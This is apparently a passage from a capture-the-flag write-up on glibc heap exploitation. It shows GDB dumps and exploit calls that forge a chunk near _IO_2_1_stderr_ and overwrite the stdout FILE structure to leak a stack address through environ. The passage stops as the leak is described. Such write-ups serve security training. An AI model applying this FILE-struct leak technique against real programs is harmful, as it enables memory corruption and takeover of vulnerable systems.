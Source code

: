Now, this will create a chunk near the `_IO_2_1_stdout_`. The first chunk
would look like:-

```r  
0x7f193ff705f8 <_IO_2_1_stderr_+184>:   0x0000000000000000
0x0000000000000000  
0x7f193ff70608 <_IO_2_1_stderr_+200>:   0x0000000000000000
0x0000000000000071  
```

Now, since having near a chunk near the `_IO_2_1_stderr_`, we will just now
overwrite the following data as such:-

```r  
$4 = {  
 file = {  
   _flags = 0xfbad2887,  
   _IO_read_ptr = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n",  
   _IO_read_end = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n",  
   _IO_read_base = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n",  
   _IO_write_base = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n",  
   _IO_write_ptr = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n",  
   _IO_write_end = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n",  
   _IO_buf_base = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n",  
   _IO_buf_end = 0x7f193ff706a4 <_IO_2_1_stdout_+132> "",  
```

We will make this as following:-

```r  
$4 = {  
 file = {  
   _flags = 0xfbad1800,  
   _IO_read_ptr = 0 <_IO_2_1_stdout_+131> "\n",  
   _IO_read_end = 0 <_IO_2_1_stdout_+131> "\n",  
   _IO_read_base = 0 <_IO_2_1_stdout_+131> "\n",  
   _IO_write_base = environ <_IO_2_1_stdout_+131> "\n",  
   _IO_write_ptr = environ+0x20 <_IO_2_1_stdout_+131> "\n",  
   _IO_write_end = environ+0x20 <_IO_2_1_stdout_+131> "\n",  
   _IO_buf_base = environ+0x20 <_IO_2_1_stdout_+131> "\n",  
   _IO_buf_end = environ+0x21 <_IO_2_1_stdout_+132> "",  
```

This will result in leaking the stack address, from here we can calculate
stack address as such that we will calculate the `ret` value so that we will
take advantage of it.

```py  
malloc(0,0x60,p64(_IO_2_1_stderr_200))  
malloc(5,0x60,"A")  
malloc(2,0x60,"B")  
malloc(3,0x60,b"A"*8+p64(0xfbad1800)+p64(0x0)*3+p64(environ)+p64(environ+0x20)*3+p64(environ+0x21))  
```

Now, once any IO based function will be called, we will get the leaks:-
